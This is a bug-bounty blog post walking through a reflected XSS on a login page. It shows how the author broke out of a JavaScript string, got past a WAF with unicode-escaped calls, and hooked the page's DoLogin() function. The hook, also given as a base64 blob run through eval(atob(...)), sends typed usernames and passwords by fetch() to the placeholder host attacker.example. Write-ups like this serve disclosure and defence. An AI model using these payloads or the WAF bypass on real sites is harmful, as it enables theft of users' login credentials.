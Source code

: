 ```yaml
---
layout: post
title: "From \"Low-Impact\" RXSS to Credential Stealer: A JS-in-JS Walkthrough"
date: 2025-08-25T00:14:54+00:00
img_dir: "/assets/2025-08-25-rxss-credential-stealer/images"
description: "From the classic “quote break” in a <script> to a login takeover: step by step, I show how a “low-impact” RXSS becomes a real credential stealer."
categories: [bugbounty]
---
```

![Cover]({{ page.img_dir | relative_url }}/cover.png) 



Ethical note: the following is for educational purposes and documents a real case in an authorized context (bug bounty). Do not perform attacks on systems without permission.

During my hunt, I found an RXSS that was apparently “harmless” and had little impact because all cookies were set with the “HttpOnly” flag, so it was not possible to steal the session cookie. If I had sent the report as it was, it would have been treated as Low/Medium, so I decided to find something to present to the program company that would make it a High.
Since the vulnerability was on the login page of a web app, I decided to turn the XSS into a kind of “phishing” attack.

## Context

The login page renders several server-side variables into a `<script>` block. One of them—coming from a query parameter (`l`)—is echoed inside a JavaScript string:

```html
<script>
  /* ... */
  var AspInterfaceLanguage = "test"; // ← user-controlled
  /* ... */
</script>
```

This is the classic **JS-in-JS sink**: if you can close the string and re-enter code context, you execute arbitrary JavaScript without touching HTML at all.

### Finding the break point

The goal is to use `l` to **close** the string, **inject** code, and then **repair** the syntax so the rest of the page parses cleanly.

A minimal mental model of the injected sequence:

```
"            // end the original string
;            // finish the statement defensively
<INJECTION>  // run my JavaScript
; a = "      // resume the string the page expects
```
So the URL looks something like this: 
`/Login.asp?IdSite=0&Error=&l=test";<INJECTION>;a="`

Which is reflected in this way : 

```html
<script>
    /* ... */
    var AspInterfaceLanguage = "test"<INJECTION>;a="";
    /* ... */
</script>
```

Before proceeding with the exploit there is a clarification to be made the webapp has a WAF system in front that recognizes possible malicious javascript patterns (alert/eval etc.) and blocks requests. 
So to bypass this control, unicode was used in this way :

```javascript
\u0061\u006C\u0065\u0072\u0074(1) // alert(1)
```
I don't know if it's a WAF or a backend check, but it's really weak and stupid.

So the payload to trigger an alert is:
`/Login.asp?IdSite=0&Error=&l=test";\u0061\u006C\u0065\u0072\u0074(1);a="`

## Convert XSS into "Credential Stealer" to increase impact

Analyzing the login page, I noticed that the login form was managed by a JS function `DoLogin()` declared in another `<script>` tag further down. 

```html

<script>

/* ..... */

function DoLogin() {

    /* ...... */
    
    var user = Trim(FormInput.InputUtente.value)
    var password = Trim(FormInput.InputPassword.value) 
        
    /* ...... */

}

/* ..... */

</script>
```

So I thought that if I replaced the content of the `DoLogin()` function with malicious code, I would have control over the login process. For Example : 

```javascript

const DoLogin = () => {
  const pwd  = Trim(FormInput.InputPassword.value);
  const user = Trim(FormInput.InputUtente.value);

  // PoC: send to a controlled listener
  fetch("https://attacker.example/?" +
        "u=" + encodeURIComponent(user) +
        "&p=" + encodeURIComponent(pwd));
};

```
I use `const` to prevent the function from being redefined later with the legitimate one in the `<script>` tag below.

However, this payload converted to Unicode became extremely long, so I decided to use eval+base64 to make it more deliverable.

```javascript

\u0065\u0076\u0061\u006C(\u0061\u0074\u006F\u0062('<BASE_64_PAYLOAD>'))  // eval(atob('<BASE_64_PAYLOAD>'))

```

At this point, I encountered a problem and discovered that if you use `const` or `let` inside `eval()`, the declared variables/functions are not accessible globally but remain accessible only inside `eval()`.  [eval() reference](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

So, to avoid this problem, I created a new script element that contains the payload. 

```javascript
var s=document.createElement('script');
s.textContent="const DoLogin = () => {const pwd = Trim(FormInput.InputPassword.value); const user = Trim(FormInput.InputUtente.value); fetch('https://attacker.example/?u='+encodeURIComponent(user)+'&p='+encodeURIComponent(pwd));}";
document.head.appendChild(s);
```

Now let's encode all of the above code in base64 and insert it into the final payload.

```javascript

\u0065\u0076\u0061\u006C(\u0061\u0074\u006F\u0062('dmFyIHM9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7DQpzLnRleHRDb250ZW50PSJjb25zdCBEb0xvZ2luID0gKCkgPT4ge2NvbnN0IHB3ZCA9IFRyaW0oRm9ybUlucHV0LklucHV0UGFzc3dvcmQudmFsdWUpOyBjb25zdCB1c2VyID0gVHJpbShGb3JtSW5wdXQuSW5wdXRVdGVudGUudmFsdWUpOyBmZXRjaCgnaHR0cHM6Ly9hdHRhY2tlci5leGFtcGxlLz91PScrZW5jb2RlVVJJQ29tcG9uZW50KHVzZXIpKycmcD0nK2VuY29kZVVSSUNvbXBvbmVudChwd2QpKTt9IjsNCmRvY3VtZW50LmhlYWQuYXBwZW5kQ2hpbGQocyk7'))

```

### Execution order: the tiny detail that changes everything

The **vulnerable** `<script>` (the one with var `AspInterfaceLanguage = "..."`) appears **before** the script that defines the legitimate DoLogin(). That means:

1. The payload runs **immediately** as the parser processes the first `<script>`.

2. The injector adds a new `<script>` that declares `const DoLogin` **first**.

3. When the later script tries to declare `function DoLogin(){...}`, the name is **already bound**, leaving my hook in control.


## Conclusion 

With this little trick, I turned a simple, low-impact XSS into a “Credential Stealer.” The triager evaluated and accepted it as High, and I received a bounty of €1,200.